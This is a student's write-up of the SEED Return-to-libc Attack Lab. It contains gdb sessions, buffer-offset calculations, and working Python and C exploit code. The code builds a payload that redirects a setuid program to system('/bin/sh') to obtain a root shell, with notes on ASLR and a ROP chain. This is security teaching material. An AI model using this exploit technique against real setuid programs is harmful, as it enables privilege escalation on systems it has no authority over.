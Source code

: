 ```yaml
---
title: Return-to-libc Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Return_to_Libc.pdf

# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of the executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `/bin/sh` is `0xbffffdef`.

**Note**: Don't use `gdb` to get the address of string `/bin/sh` in `libc`. Beacause `gbd` will inject something to the stack and heap for debugging, so the address probably become different in runtime.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(40)) #**Note**: it must be modified there. the origin length of     `content` is 300, which may cause `retlib` return directly without launching a root shell. Please change the length to a smaller int.

X = 32
sh_addr = 0xbffffdef      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

Y = 24
system_addr = 0xb7e42da0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

Z = 28
exit_addr = 0xb7e369d0  # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the template and source code offered by the official site.

Or use the C version `exploit.c`:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");

    /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
    *(long *)&buf[32] = 0xbffffdef; //  "/bin/sh"
    *(long *)&buf[24] = 0xb7e42da0; //  system()
    *(long *)&buf[28] = 0xb7e369d0; //  exit()

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```

Finally, I got

![](root_shell.png)

## Attack variation 1

The root shell can also be launched. But when exiting the shell, the `retlib` can not be terminated properly. It issues a `Segmentation fault` error.

## Attack variation 2

```shell
mv retlib newretlib
./newretlib
zsh:1: command not found: h
Segmentation fault
```

Before environment variables are pushed into the stack, the program's name is pushed in first. So the location of `/bin/sh` will shift if the length of program's name changes.

# Task 4

It failed. 

`X`,`Y` and `Z` are determined by the relative distance to `ebp`, which is not influenced by the address randomization.

But the address of `system`,`exit`, and `/bin/sh` are updated.

```shell
./env666
/bin/sh is in bfa0cdef
rm badfile
touch badfile
gdb -q retlib
gdb-peda$ set disable-randomization on
gdb-peda$ r
Starting program: /home/seed/Documents/return-to-libc/retlib 
Returned Properly
[Inferior 1 (process 6081) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7616da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb760a9d0 <__GI_exit>
gdb-peda$ quit
```

# Task 5

```shell
gcc -fno-stack-protector -z noexecstack -o retlib_rop retlib_rop.c
sudo chown root retlib_rop
sudo chmod 4755 retlib_rop
./retlib_rop
/bin/sh is in 0xbfffe558
Address of buffer[] : 0xbfffe520
Frame Pointer value : 0xbfffe538
Returned Properly
```

```
gdb -q retlib_rop
r
p bar
$1 = {<text variable, no debug info>} 0x8048567 <bar>
p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
```

![](./chainnoarg.png)



